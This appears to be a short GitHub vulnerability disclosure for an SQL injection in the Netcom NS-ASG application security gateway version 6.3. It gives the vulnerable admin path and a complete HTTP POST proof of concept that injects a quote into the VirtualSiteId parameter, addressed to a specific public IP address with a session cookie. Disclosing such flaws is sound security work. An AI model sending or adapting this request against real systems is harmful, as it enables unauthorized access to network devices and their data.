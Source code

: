 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/edit_virtual_site_info.php


```
POST /admin/edit_virtual_site_info.php HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=bed72fc51349b92a0462eecbc5ff96d8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

&action=restitute&VirtualSiteId=1'
```

<img width="513" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/aa298eee-12d4-497b-a37f-84324e5f4fea">
